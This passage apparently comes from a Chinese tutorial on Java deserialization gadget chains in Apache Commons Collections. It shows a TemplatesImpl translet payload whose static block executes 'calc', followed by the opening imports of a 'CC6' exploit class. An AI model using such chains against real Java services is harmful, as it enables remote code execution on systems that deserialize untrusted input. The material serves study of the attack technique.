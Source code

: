 ### EXP(CC3Templateslmpl):

```plain
Demo.java
package EXP;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Demo extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }catch (IOException e){
           e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后我们再利用 CC1 的链将前半段链子补全得到最后 CC6 的 EXP：

```plain
package EXP;

import com.sun.org.apache.xalan.internal.utils.ObjectFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.AccessController;
import java.security.PrivilegedAction;
```